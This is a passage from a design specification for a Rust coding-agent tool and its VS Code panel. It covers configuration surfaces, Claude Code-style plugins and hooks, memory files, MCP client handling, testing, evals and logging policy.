- All controls keyboard reachable and labelled; streaming region uses `aria-live="polite"`; use VS Code theme CSS variables. Respect reduced motion.

If the child exits, show the error and last stderr lines, with a restart button.

So far (T5.3): the panel is an editor-tab webview opened by `praxis.open`, not a webview view. ACP lines are framed by hand with `serde_json` (`praxis-vscode/src/protocol.rs`), not the `agent-client-protocol` crate, and become typed panel messages (`text`, `tool`, `permission`, `usage`, `done`, `notice`). Model text renders through `pulldown-cmark` with raw HTML escaped, links outside `http`, `https` and `vscode` dropped, and images reduced to alt text. Tool calls are collapsed `<details>`. Permission prompts are panel buttons; answers are checked against the open request and its offered options, and Stop sends `session/cancel` then answers open prompts `cancelled`. The status line shows phase, elapsed time and context used; "loading model" never shows because ACP sends no such event. On exit the panel shows the code, stderr is in the output channel, and an error notification offers Restart.

### Configuration surfaces

Config reaches the user through three surfaces. Each key lives in one of them:

| Surface | Keys | Scope |
|---|---|---|
| Chat panel | `model`, `agent`, permission `mode` | Session only. Never written to a file; a new session falls back to config. |
| VS Code settings | `praxis.binaryPath` (machine scope), `praxis.defaultModel`, `praxis.lmstudio.baseUrl`, `praxis.agent.maxTurnRequests`, `praxis.context.maskKeepTurns`, `praxis.context.filterOutput`, `praxis.permissions.mode` (machine scope, T10.7) | Forwarded to the CLI as `--config-override` only when the user set them. |
| File only (`config.toml`) | `mcp`, `hooks`, `sandbox.*`, `permissions.allow`, `permissions.deny`, `anthropic.*`, `profiles.*`, `plugins` | Read from the user and project layers. |

Rule: security-relevant keys are never workspace-settable VS Code settings. Workspace settings (`.vscode/settings.json`) come from the repository, so exposing permissions, sandbox, hooks or the binary path there would let a repository bypass the trust gate (§8) and the invariants in §10. `praxis.binaryPath` and `praxis.permissions.mode` are machine-scoped for the same reason; the mode is the only permission key exposed, and only so the user can choose `full-access` (T10.7).

Precedence: an extension-supplied `--config-override` is a CLI flag, so it beats env and file layers, as §8 says. An unset VS Code setting adds no override, so the file and env values apply.

## 12. Plugins

Reference: [manifest](https://code.claude.com/docs/en/plugins/manifest-reference.md), [components](https://code.claude.com/docs/en/plugins/components.md), [hooks](https://code.claude.com/docs/en/hooks.md). The formats belong to Claude Code and can change. Implement the subset below and warn clearly about anything skipped; never fail silently.

### Support matrix

| Component | Location | First version |
|---|---|---|
| Manifest | `.claude-plugin/plugin.json`, optional; only `name` is required | Yes. Unknown top-level keys are warnings |
| Skills | `skills/<name>/SKILL.md` | Yes |
| Commands | `commands/*.md` (same frontmatter as skills) | Yes, invoked as `/<plugin>:<name>` |
| Agents | `agents/**/*.md` | Sequential only; `name`, `description`, `model`, `tools`, `disallowedTools`, `maxTurns`. `model` values like `sonnet` map through `[models]` aliases (§8), possibly to another backend, or fall back to the session model. The session model can act as an orchestrator that delegates to local workers ([ADR 0005](adr/0005-orchestrator-model-delegates-to-local-workers.md)). An agent sees only the tools `tools` and `disallowedTools` let it use, including MCP tools in the indexed-mode index and `ToolSearch` results |
| Hooks | `hooks/hooks.json` | `type: "command"` only |
| MCP servers | `.mcp.json`, with or without wrapper; `mcpServers` in manifest | Yes; `.mcpb` bundles no |
| `userConfig` | Manifest | Yes; `sensitive` values kept out of config and session logs, and stored in a `0600` file |
| `bin/` | Plugin root | Appended after the user's `PATH`, so it can't shadow system commands |
| LSP, monitors, output styles, themes, channels, marketplace | | No; warn |
| Workflows and mods | JavaScript files | **No; they need a JS runtime, which ADR 0001 excludes** |

Path rules from the manifest reference: component paths must begin with `./` (`skills` may also be `.`), must exist, and must resolve inside the plugin root. `commands` and `agents` replace the default scan, `skills` adds to it, and `hooks` and `mcpServers` merge with their default files.

A built-in `general` agent is always offered through the same `Agent` tool, so delegation works with no plugin installed: it gets every session tool except `Agent` and `Skill` (as every subagent does), has no `model` (so it runs on the session model), and its system prompt asks for a short report of what it found or changed. A plugin agent named `general` is an error at load, naming the plugin.

Plugins are never read from `~/.claude`. Install them explicitly into `~/.local/share/praxis/plugins/`. `praxis plugin install <path|git URL>` clones into `plugins/<name>/` (a local path may be a plugin subdirectory of a marketplace repo: the repo is cloned and only that subdirectory kept), pins the HEAD commit in `plugins/installed.json`, prints what it can run (hooks, MCP servers, `bin/`) and leaves it disabled; `enable` prints that list again. `remove` keeps `plugins/data/<name>/` unless `--delete-data` is passed or a terminal confirms. Each session (CLI and `praxis acp`) loads enabled plugins at start: skills join the index, agents are offered through an `Agent` tool (`subagent_type`, `prompt`) that runs one in a fresh history with only its allowed tools and returns its last reply, `PreToolUse` hooks run in the permission check, and MCP servers connect and are pinned. `/<plugin>:<cmd>` works in the CLI only; other hook events don't run yet. A subagent's text and tool calls go to the front end tagged with its `Agent` call (SPEC §11, `_meta.praxis`); the VS Code panel nests them under that call, collapsed, with a summary such as "Explore · 6 tool calls · running" (T10.8).

`plugin list --json` also carries each plugin's `readme` (its root `README.md` text, or `null`, never read through a link out of the plugin root) and `components`, one `{kind: command|skill|agent, name, description}` per command, skill and agent. The VS Code Plugins view opens a read-only details tab per plugin on click (T10.9): the README rendered with raw HTML escaped and unsafe links dropped, then the components. The page is built from the listing already in memory, under a CSP with no scripts. Agents are listed without resolving `model`, so one whose model is not enabled still shows.

### Skills

The prompt has an index of `name: description`, frozen at session start and subject to the budget. The `Skill` tool returns the body on demand, as an appended message. Substitute `$ARGUMENTS` (`UNVERIFIED` for the full list of substitutions; see Claude Code's skills doc).

### Markdown sources outside plugins

Decided in [ADR 0007](adr/0007-markdown-sources-like-claude-code.md). Project markdown is untrusted context: it never grants permissions, starts processes or enables a backend.

**Memory files**, in prefix order (broadest first, nearest last):

1. User: `~/.claude/CLAUDE.md`, then `~/.config/praxis/AGENTS.md` (or under `$XDG_CONFIG_HOME`).
2. Each directory from the workspace root down to cwd: `CLAUDE.md` or `.claude/CLAUDE.md`, then `CLAUDE.local.md`. `AGENTS.md` is read only if no `CLAUDE.md` exists in the workspace (Claude Code's default). Never above the workspace root.
3. Rules without a `paths` field: `~/.claude/rules/**/*.md`, `~/.config/praxis/rules/**/*.md`, then `.claude/rules/**/*.md` and `.praxis/rules/**/*.md`.

All of them sit in the frozen prefix under the existing budget, trimmed broadest-first with a warning. Block-level HTML comments outside code are stripped.

**Imports:** `@path` on a memory file's line imports that file in place. Relative paths resolve against the importing file; `@~/` against home. Up to four hops; a cycle stops silently at the repeated file. Not parsed inside code spans or fenced blocks. A project file's import must resolve inside the workspace (confinement rules, §9) and a user file's inside `~/.config/praxis/`; otherwise it's skipped with a warning.

**Nested memory** (*Should*): the first time `Read`, `Write` or `Edit` touches a file under a subdirectory of cwd, that directory's memory file, and any rule whose `paths` glob matches the file, is appended as a message. Each is loaded once per session.

**Skills, commands and agents:**

| Kind | User | Project | Name |
|---|---|---|---|
| Skills | `~/.claude/skills/<name>/SKILL.md`, `~/.config/praxis/skills/` | `.claude/skills/`, `.praxis/skills/` | `name` field, else directory |
| Commands | `~/.claude/commands/**/*.md`, `~/.config/praxis/commands/` | `.claude/commands/`, `.praxis/commands/` | File stem; subdirectories join with `:` (`frontend/component.md` is `frontend:component`) |
| Agents | `~/.claude/agents/**/*.md`, `~/.config/praxis/agents/` | `.claude/agents/`, `.praxis/agents/` | `name` field |

- Skills and commands share one namespace, invoked as `/<name>` in the CLI. A skill beats a command of the same name. On a clash, user beats project for skills and commands, and project beats user for agents (Claude Code's order). `.praxis/` beats `.claude/` at the same level, so a praxis-only override is possible. Plugin entries stay namespaced and never clash. A standalone agent named `general` is an error, as for plugins.
- Frontmatter read: `name`, `description`, `when_to_use` (appended to the description), `argument-hint`, `disable-model-invocation` (left out of the index), `user-invocable: false` (no `/` command), `model`; agents also take `tools`, `disallowedTools`, `maxTurns` as in §12. `allowed-tools`, `permissionMode`, `hooks`, `mcpServers` and `` !`cmd` `` injection warn and are ignored. Other unknown fields are ignored silently, as in Claude Code.
- Substitutions in skill and command bodies: `$ARGUMENTS`, `$ARGUMENTS[N]` and `$N` (0-based, split like a shell), `${CLAUDE_SKILL_DIR}`, `${CLAUDE_PROJECT_DIR}`, `${CLAUDE_SESSION_ID}`; `\$` escapes. With no placeholder, `ARGUMENTS: <value>` is appended.
- **Settings:** `~/.claude/settings.json` sits just below the user layer and `.claude/settings.json` plus `.claude/settings.local.json` just below the project layer (§8). Only `permissions.allow`, `permissions.deny` and `hooks` are read, in Claude Code's rule syntax, which §9 already uses; other keys are ignored without a warning, because they're Claude Code's own. Project allow rules and hooks are widening items for the trust gate. A malformed settings file is a config error naming the file, never skipped, because it carries permission rules.
- Unreadable or malformed files are skipped with a warning naming the path; never fail silently.

### Hooks

```json
{ "hooks": { "PostToolUse": [ { "matcher": "Write|Edit",
  "hooks": [ { "type": "command", "command": "\"${CLAUDE_PLUGIN_ROOT}/scripts/format.sh\"", "timeout": 30 } ] } ] } }
```

Files wrap the event map in `"hooks"`; an inline manifest object doesn't.

**Events supported:** `PreToolUse`, `PostToolUse`, `UserPromptSubmit`, `SessionStart`, `Stop`. Warn on any others.

**Matcher:** `*`, an empty string or an omitted value matches all. Only letters, digits, `_`, `-`, spaces, `,` and `|` means an exact name or list. Anything else is an unanchored regex; Claude Code uses JS regex, and Rust's `regex` has no lookaround, so warn and skip on a pattern that doesn't compile.

**Execution:** with `args`, run with no shell (exec form). Without `args`, run through the shell, because `command` may be a shell string. Default timeout 30 s; on timeout, kill it and treat it as a non-blocking error. Run hooks only from approved plugins.

**Stdin JSON:**

| Event | Fields, in addition to `session_id`, `transcript_path`, `cwd`, `permission_mode`, `hook_event_name` |
|---|---|
| `PreToolUse` | `tool_name`, `tool_input`, `tool_use_id` |
| `PostToolUse` | Those, plus `tool_response`, `duration_ms`, and `mcp_server` for MCP tools |
| `UserPromptSubmit` | `prompt` |
| `SessionStart` | `source` (`startup`, `resume`, ...), `model` |
| `Stop` | `UNVERIFIED`; read the hooks doc section before implementing |

**Exit codes:** 0 means parse stdout as JSON if it's a single JSON object, otherwise plain text (added to context only for `UserPromptSubmit` and `SessionStart`). 2 blocks where the event can block, with stderr as the reason, even if JSON allowed it. Anything else is a non-blocking error and the action proceeds.

**Output handled:** `continue`, `stopReason`, `systemMessage`, top-level `decision: "block"` with `reason`, and `hookSpecificOutput` with `hookEventName`, `permissionDecision` (`allow`, `deny`, `ask`, `defer`; treat `defer` as no decision), `permissionDecisionReason`, `updatedInput`, `additionalContext`, `updatedToolOutput`.

Revalidate `updatedInput` against the schema, then run the permission check on the new input. Otherwise a hook-altered path could bypass the check.

`additionalContext` is appended as a message, keeping the prefix stable.

**Environment for hooks and plugin MCP servers:** `CLAUDE_PLUGIN_ROOT`, `CLAUDE_PLUGIN_DATA` (mapped to `~/.local/share/praxis/plugins/data/<id>/`), `CLAUDE_PROJECT_DIR`, `CLAUDE_PLUGIN_OPTION_<KEY>`. `${...}` expands in `command`, `args`, `env` and skill or agent bodies. These names exist for compatibility with existing plugins.

### MCP tool names

`mcp__<server>__<tool>`; for plugins, `mcp__plugin_<plugin>_<server>__<tool>`. Use these in permission rules and matchers.

## 13. MCP

`rmcp` targets spec `2026-07-28`. Check the client API on docs.rs for the pinned version; its README doesn't include a client example.

- **Transports:** stdio child process and streamable HTTP. No OAuth at first: static headers via `headers` in config, with values from environment variables.
- **Lifecycle:** connect in the background at session start, so a slow server doesn't delay the prompt. A failed server produces a notice and the session continues without it. If it crashes mid-session, its tool calls return errors, and reconnect once.
- **Tool list freeze:** `tools/list` results are fixed at session start per §7, with later `list_changed` notifications logged rather than applied.
- **Results:** pass through the tool-result budget; non-text content is replaced by a short description.
- **Pinning:** on approval, store the SHA-256 of each tool's name, description and schema. Pins live in the trust store under `mcp:<tool name>`, beside the definition text so a change can be shown; a tool seen for the first time is pinned without asking, since its server was already approved. On any change, hide that tool from the model and ask again, showing what changed. This also covers plugin servers.
- **Description scan:** at approval, flag instruction-like wording, encoded content and unusual length as a warning only. It catches part of the problem and has false positives, so it never blocks and never counts as a defence.
- **Timeouts:** default 60 s per call, and cancellation is forwarded.
- **Schemas:** weak models choke on large schemas, so strip `$comment`, `examples` and long descriptions in the prompt, but validate against the original.

Start with tools, then resources and prompts.

## 14. Testing

| Layer | What | How |
|---|---|---|
| Unit | Parsers, budgets, rules, recovery, config merge, hook matching | Plain `#[test]`, no I/O |
| Integration | Agent loop, provider, tools, sessions | `wiremock` fake server with fixtures in `crates/praxis-core/tests/fixtures/lmstudio/` and `.../anthropic/` (T8.1); temp directories |
| Security | §10 invariants | `crates/praxis-core/tests/security.rs` plus hostile fixture repo |
| Protocol | ACP | In-process via the crate's `Channel` transport; mock client |
| MCP | Client | Small test server built with `rmcp`'s server features as a dev-dependency |
| Plugin compat | Real format | Fixture plugin with a skill, a hook and an MCP server |
| Extension | Logic | Native tests on protocol and message-mapping code; **manual checklist** in `editors/vscode/CHECKLIST.md` for UI |
| Evals | Real model quality | `cargo xtask eval`, outside verify |

**Fixtures** are recorded from real servers by T0.3 and stored as-is, including malformed output. Never hand-edit them to make a test pass; if behaviour changes, re-record.

`scripts/verify` runs `cargo fmt --all --check`, then `cargo clippy` and `cargo test` on the workspace excluding wasm crates, then `cargo clippy` (which includes the check) for wasm crates with `--target wasm32-unknown-unknown`. Add `cargo audit` if the human approves the tool; it isn't installed.

### Evals

Each `evals/<task>/` has `task.toml` (prompt, limits), `repo/` (fixture) and `check.sh` (exit 0 means success, written so it can't be satisfied by editing the tests: tests live outside the agent's writable path, or are restored before checking). Run with sandbox on and `auto-edit` mode. Until T3.3 provides both, `cargo xtask eval` drives `praxis-core` directly, approves every tool call and instead runs each task inside `bwrap`: only the task's copy is writable, the home directory isn't mounted, and the only network path is a forwarded socket to LM Studio. `check.sh` runs in a second `bwrap` with no network, because it executes agent-written code. The command fails if `bwrap` is missing.

`check.sh [workdir]` judges a copy of the agent's edited repo and never changes it. Each task also has `hidden/` (tests outside the writable path), `solution.patch` and optionally `bad-solutions/*.patch`. `scripts/prove-evals` shows that every check fails on the untouched fixture and on tampered tests, passes on the solution and fails on each bad solution; it needs no model and stays out of verify because it compiles every fixture repeatedly.

Scoreboard per model: success rate, turns, wall time, tool-call parse failures, recoveries, loop stops, prompt tokens processed versus cached, re-fetches of masked output, and injection eval outcomes. Token counts alone overstate savings, so every context feature is compared with it switched off. Written as JSON and committed to `evals/results/` when a milestone closes. A metric the praxis can't produce yet is `null`, with its reason under `null_reasons`. Model runs vary, so run each task at least 3 times with a fixed seed where supported.

## 15. Error and logging policy

- `praxis-core` returns typed errors (`thiserror`). Only the CLI top level uses `anyhow`.
- Users get what happened and what to do. Stack traces are for `RUST_LOG=debug` on stderr.
- Logs exclude prompts, file contents and secrets at `info` and below. Debug-level content logging needs an explicit `PRAXIS_LOG_CONTENT=1`.
- A task panic is caught at the tool boundary and becomes a tool error. A session log write failure stops the turn, since continuing would lose data.

## 16. Sources

Research behind the context, review and security decisions is in [RESEARCH.md](RESEARCH.md).

- Anthropic: [Messages API](https://platform.claude.com/docs/en/api/messages/create), [streaming](https://platform.claude.com/docs/en/build-with-claude/streaming), [tool use](https://platform.claude.com/docs/en/agents-and-tools/tool-use/overview), [prompt caching](https://platform.claude.com/docs/en/build-with-claude/prompt-caching)
- LM Studio: [REST overview](https://lmstudio.ai/docs/developer/rest), [load](https://lmstudio.ai/docs/developer/rest/load), [list](https://lmstudio.ai/docs/developer/rest/list)
- ACP: [overview](https://agentclientprotocol.com/protocol/overview), [prompt turn](https://agentclientprotocol.com/protocol/prompt-turn), [transports](https://agentclientprotocol.com/protocol/transports), [Rust crate 5.0.0](https://docs.rs/agent-client-protocol/5.0.0/agent_client_protocol/)
- MCP: [rmcp 3.9.0](https://docs.rs/crate/rmcp/3.9.0/source/README.md), [spec 2026-07-28](https://modelcontextprotocol.io/specification/2026-07-28)
- Claude Code: [plugin manifest](https://code.claude.com/docs/en/plugins-reference), [components](https://code.claude.com/docs/en/plugins/components.md), [hooks](https://code.claude.com/docs/en/hooks)
- VS Code: [WebAssembly](https://code.visualstudio.com/blogs/2024/05/08/wasm)
